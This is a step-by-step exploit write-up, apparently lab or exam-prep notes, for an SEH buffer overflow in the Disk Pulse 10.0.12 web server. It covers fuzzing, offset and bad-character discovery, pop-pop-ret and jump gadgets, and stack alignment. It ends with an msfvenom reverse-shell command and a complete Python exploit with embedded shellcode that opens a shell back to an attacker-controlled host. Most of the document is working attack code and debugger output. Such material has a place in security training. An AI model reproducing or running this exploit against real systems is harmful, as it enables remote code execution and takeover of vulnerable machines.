# DISK_PULSE_V10.0.12


For detailed  process of SEH , how SEH-chain works.  visit [SYNC_BREEZE_10.4.18](../SYNC_BREEZE_10.4.18/SYNC_BREEZE_10.4.18.md)

This is basically for DISK PULSE ; where we exploit with different kinda approach.  Install the Disk Pulse version 10.0.12 and start the webserver.

## CRASH THE PROGRAM


```python
#!/usr/bin/python
import socket, sys

target = "192.168.151.10"
port = 80


def send_exploit_request():

    inputBuffer  = b"A" * 6000

    print(f"[+] Sending {len(inputBuffer)} bytes.....")


    #HTTP Request
    request = b"GET /" + inputBuffer + b"HTTP/1.1" + b"\r\n"
    request += b"Host: " + target.encode() + b"\r\n"
    request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0" + b"\r\n"
    request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + b"\r\n"
    request += b"Accept-Language: en-US,en;q=0.5" + b"\r\n"
    request += b"Accept-Encoding: gzip, deflate" + b"\r\n"
    request += b"Connection: keep-alive" + b"\r\n\r\n"
 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,port))
    s.send(request)
    s.close()
    
    print("HACK THE PLANET")

if __name__ == "__main__": 
    send_exploit_request()
```


## FINDING OFFSET


```
msf-pattern_create -l 6000
```

We Send it as input Buffer and study the crash. It hits the first exception. 




```
└─# msf-pattern_offset -q 32664431
[*] Exact match at offset 2495    [Value of nseh]

┌──(root㉿BHASHMA)-[~/OFFSEC_/SEH_EXTRA_MILE]
└─# msf-pattern_offset -q 44336644 
[*] Exact match at offset 2499  [value of seh]

```

So , we found we need to overwrite 2495 bytes to reach the nseh, and 2499 bytes for the seh. Lets update our exploit.


```python
crash = 6000
offset = 2495


def send_exploit_request():

    inputBuffer  = b"A" * offset
    inputBuffer  += b"B" * 4    ## nseh
    inputBuffer += b"C" * 4    ## seh
    inputBuffer += b"D" * (crash - len(inputBuffer))
```


Lets send the updated POC and check weather it landed on where we want or not...



Cool ! We landed where we wanted !!


## CHECKING BAD CHARACTERS


```python
crash = 6000
offset = 2495

def send_exploit_request():

    bad_chars = (
    b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c"
    b"\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
    b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
    b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
    b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
    b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
    b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
    b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
    b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
    b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
    b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
    b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
    b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
    b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
    b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
    b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
    b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
    b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

    inputBuffer  = b"A" * offset
    inputBuffer  += b"B" * 4    ## nseh
    inputBuffer += b"C" * 4    ## seh
    inputBuffer += bad_chars
    inputBuffer += b"D" * (crash - len(inputBuffer))
```


Here as we can see all the bytes passed without mangling the memory, But there's different kinda crash this time. So we have to deal this differently.....







So in this case, We comment the 1st three lines of bad_char and send the bigger chunks....and check the nature of crash.

```python
    bad_chars = (
    #b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c"
    #b"\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
    #b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
    b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
    b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
    b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
    b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
    b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
    b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
    b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
    b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
    b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
    b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
    b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
    b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
    b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
    b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
    b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```




Cool ! This is what the SEH crash looks like ; Now that we know our bad-chars are from top 3 lines, We distribute them in chunks of 4 / 5 and send it again. Also we remove the default 
bad-chars : `0x00 ; 0x0a ; 0x0d`

```python
    bad_chars = (
    b"\x01\x02\x03\x04"
    b"\x05\x06\x07\x08\x09"
    #b"\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14"
    #b"\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d"
    #b"\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
    )
```


This is a hectic process ; Damn First get rid of each lines then each characters...So Either you find the bad-chars easily or its Your fuckin' bad day....




So, Again we get to know that bad-chars are among the top 2 lines, So we again distribute it one char. per line....

```python
    bad_chars = (
    #b"\x01"
    b"\x02"
    #b"\x03\x04"
    #b"\x05\x06\x07\x08\x09"
    #b"\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14"
    #b"\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d"
    #b"\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
    )
```


In this way , we knew 0x02 was indeed bad characters. So we eliminate the bad chars this way....
In the end , our bad chars are : ```0x00 ; 0x02 ; 0x09 ; 0x0a ; 0x0d ; 0x20```


## FINDING POP POP RET

Lets check this manually before we use any of the scripts !

```windbg
> .load narly

> !nmod
```




Now as we found the ppr , Lets add this to our exploit !


```python
crash = 6000
offset = 2495
pop_pop_ret = 0x101576c0

def send_exploit_request():
    
    inputBuffer  = b"A" * offset
    inputBuffer  += b"B" * 4    ## nseh
    inputBuffer += pack("<L", pop_pop_ret)    ## seh 
    inputBuffer += b"D" * (crash - len(inputBuffer))
```

Lets set the breakpoint to ppr at the debugger :

Cool ! We landed at ppr which leaded to nseh i.e 424242.




But here we only have 4 bytes to write , So we utilize this with short jump to 444444, where we have enough space for our shellcode.


## SHORT JMP


Now from the same debugger session Lets map how much bytes we need to jump from current nseh i.e 424242 to reach 4444 i.e remaining buffer.



We need to jmp 6-bytes to reach our next target. Lets update the poc.


```
crash = 6000
offset = 2495
pop_pop_ret = 0x101576c0
short_jmp = 0x06eb9090

def send_exploit_request():
    
    inputBuffer  = b"A" * offset
    inputBuffer  += pack("<L", short_jmp)    ## nseh
    inputBuffer += pack("<L", pop_pop_ret)    ## seh 
    inputBuffer += b"D" * (crash - len(inputBuffer))
```

Set the breakpoint at ppr in the debugger and send the exploit. Cool We landed where we needed to land at our rest of the buffer.





## ISLAND HOPING

Now we need to jump to our shellcode space. 


```python
crash = 6000
offset = 2495
pop_pop_ret = 0x101576c0
short_jmp = 0x06eb9090

def send_exploit_request():
    
    shellcode = b"D" * 400
    inputBuffer   = b"A" * offset
    inputBuffer  += pack("<L", short_jmp)    ## nseh
    inputBuffer  += pack("<L", pop_pop_ret)    ## seh
    inputBuffer  += b"\x90" * 6 ## nops so our shellcode aint mangled.
    inputBuffer  += b"\x90" * (crash - len(inputBuffer) -len(shellcode))
    inputBuffer  += shellcode
```

Cool ! We landed at our NOPS area ; But we found that we are almost at end of our stack .







So we cant add our shellcode here. Now we need to do this another way.

As we control the buffer. What about putting the shellcode at start of the buffer and jumping the esp / execution to our shellcode. So Lets find out the start of the buffer i.e AAAA and check how much bytes we need to add from the current stack pointer to reach there.


```
> db esp 1000 [check until you find the start of your buffer]
```



We found the start of our buffer ! and also we need to add 3017 bytes to reach the beginning of our controlled Buffer. 

```
└─# msf-nasm_shell                
nasm > add esp,3017
00000000  81C4C90B0000      add esp,0xbc9    

nasm > add sp,3017
00000000  6681C4C90B        add sp,0xbc9
```

Here we cant use the add,esp 3017 --> because it contains the Null Character i.e 0x00 ; 
Also the add,sp 3017 --> isnt 4 bytes alligned , So the CPU's gonna freek out. Its simple as we have alot of space , We can allign the stack to 4 bytes.

```
EXAMPLE:

3017 / 4 = 754.25 [This aint 4 bytes alligned.]

3020 / 4 = 755 [As its divisible by 4 --> Its alligned correctly.]
```


So.

```
nasm > add sp,3020
00000000  6681C4CC0B        add sp,0xbcc
nasm > jmp esp
00000000  FF                db 0xff
00000001  E4                db 0xe4
```


Lets update our proof of code.

```python
offset = 2495
pop_pop_ret = 0x101576c0
short_jmp = 0x06eb9090

def send_exploit_request():
    
    shellcode   = b"D" * 400
    inputBuffer  = shellcode
    inputBuffer  += b"A" * (offset -len(shellcode))
    inputBuffer  += pack("<L", short_jmp)             ## nseh
    inputBuffer  += pack("<L", pop_pop_ret)           ## seh
    inputBuffer  += b"\x90" * 6                       ## nops so our shellcode aint mangled.
    inputBuffer  += b"\x66\x81\xC4\xCC\x0B\xFF\xE4"   ## jump to the starting of the buffer.
    inputBuffer  += b"\x90" * (crash - len(inputBuffer))
```

Set the breakpoint at p/p/r and check weather our jmp esp lands us to our shellcode area i.e DDDD.





Wonderful ! We landed where we needed to land at the beginning of our buffer. The Final step is to generate the shellcode and get the reverse shell.....


## FINAL EXPLOIT


```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.217 LPORT=1337 EXITFUNC=thread -f python -v shellcode -b "\x00\x0a\x0d\x02\x09\x20" 
```


```python
#!/usr/bin/python
import socket, sys
from struct import pack

target = "192.168.151.10"
port = 80
crash = 6000
offset = 2495
pop_pop_ret = 0x101576c0
short_jmp = 0x06eb9090

def send_exploit_request():

    shellcode = b"\x90" * 100 ## adding nops so our shellcode slides , without any manglin'.....
    shellcode +=  b""
    shellcode += b"\xdd\xc1\xb8\xae\xb9\x47\x99\xd9\x74\x24\xf4"
    shellcode += b"\x5d\x31\xc9\xb1\x52\x31\x45\x17\x03\x45\x17"
    shellcode += b"\x83\x6b\xbd\xa5\x6c\x8f\x56\xab\x8f\x6f\xa7"
    shellcode += b"\xcc\x06\x8a\x96\xcc\x7d\xdf\x89\xfc\xf6\x8d"
    shellcode += b"\x25\x76\x5a\x25\xbd\xfa\x73\x4a\x76\xb0\xa5"
    shellcode += b"\x65\x87\xe9\x96\xe4\x0b\xf0\xca\xc6\x32\x3b"
    shellcode += b"\x1f\x07\x72\x26\xd2\x55\x2b\x2c\x41\x49\x58"
    shellcode += b"\x78\x5a\xe2\x12\x6c\xda\x17\xe2\x8f\xcb\x86"
    shellcode += b"\x78\xd6\xcb\x29\xac\x62\x42\x31\xb1\x4f\x1c"
    shellcode += b"\xca\x01\x3b\x9f\x1a\x58\xc4\x0c\x63\x54\x37"
    shellcode += b"\x4c\xa4\x53\xa8\x3b\xdc\xa7\x55\x3c\x1b\xd5"
    shellcode += b"\x81\xc9\xbf\x7d\x41\x69\x1b\x7f\x86\xec\xe8"
    shellcode += b"\x73\x63\x7a\xb6\x97\x72\xaf\xcd\xac\xff\x4e"
    shellcode += b"\x01\x25\xbb\x74\x85\x6d\x1f\x14\x9c\xcb\xce"
    shellcode += b"\x29\xfe\xb3\xaf\x8f\x75\x59\xbb\xbd\xd4\x36"
    shellcode += b"\x08\x8c\xe6\xc6\x06\x87\x95\xf4\x89\x33\x31"
    shellcode += b"\xb5\x42\x9a\xc6\xba\x78\x5a\x58\x45\x83\x9b"
    shellcode += b"\x71\x82\xd7\xcb\xe9\x23\x58\x80\xe9\xcc\x8d"
    shellcode += b"\x07\xb9\x62\x7e\xe8\x69\xc3\x2e\x80\x63\xcc"
    shellcode += b"\x11\xb0\x8c\x06\x3a\x5b\x77\xc1\x85\x34\x5a"
    shellcode += b"\xc8\x6e\x47\xa4\xef\x57\xce\x42\x85\xb7\x86"
    shellcode += b"\xdd\x32\x21\x83\x95\xa3\xae\x19\xd0\xe4\x25"
    shellcode += b"\xae\x25\xaa\xcd\xdb\x35\x5b\x3e\x96\x67\xca"
    shellcode += b"\x41\x0c\x0f\x90\xd0\xcb\xcf\xdf\xc8\x43\x98"
    shellcode += b"\x88\x3f\x9a\x4c\x25\x19\x34\x72\xb4\xff\x7f"
    shellcode += b"\x36\x63\x3c\x81\xb7\xe6\x78\xa5\xa7\x3e\x80"
    shellcode += b"\xe1\x93\xee\xd7\xbf\x4d\x49\x8e\x71\x27\x03"
    shellcode += b"\x7d\xd8\xaf\xd2\x4d\xdb\xa9\xda\x9b\xad\x55"
    shellcode += b"\x6a\x72\xe8\x6a\x43\x12\xfc\x13\xb9\x82\x03"
    shellcode += b"\xce\x79\xd9\x27\xc1\x8d\xb6\x71\xb4\xd3\xda"
    shellcode += b"\x81\x63\x17\xe3\x01\x81\xe8\x10\x19\xe0\xed"
    shellcode += b"\x5d\x9d\x19\x9c\xce\x48\x1d\x33\xee\x58"

    inputBuffer  = shellcode
    inputBuffer  += b"A" * (offset -len(shellcode))
    inputBuffer  += pack("<L", short_jmp)             ## nseh
    inputBuffer  += pack("<L", pop_pop_ret)           ## seh
    inputBuffer  += b"\x90" * 6                       ## nops so our shellcode aint mangled.
    inputBuffer  += b"\x66\x81\xC4\xCC\x0B\xFF\xE4"   ## jump to the starting of the buffer.
    inputBuffer  += b"\x90" * (crash - len(inputBuffer))

    print(f"[+] Sending {len(inputBuffer)} bytes.....")


    #HTTP Request
    request = b"GET /" + inputBuffer + b"HTTP/1.1" + b"\r\n"
    request += b"Host: " + target.encode() + b"\r\n"
    request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0" + b"\r\n"
    request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + b"\r\n"
    request += b"Accept-Language: en-US,en;q=0.5" + b"\r\n"
    request += b"Accept-Encoding: gzip, deflate" + b"\r\n"
    request += b"Connection: keep-alive" + b"\r\n\r\n"
 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,port))
    s.send(request)
    s.close()
    
    print("HACK THE PLANET")

if __name__ == "__main__": 
    send_exploit_request()
```


Now send the final bomb made by your own fuckin' hands destroy the disk-pulse application !


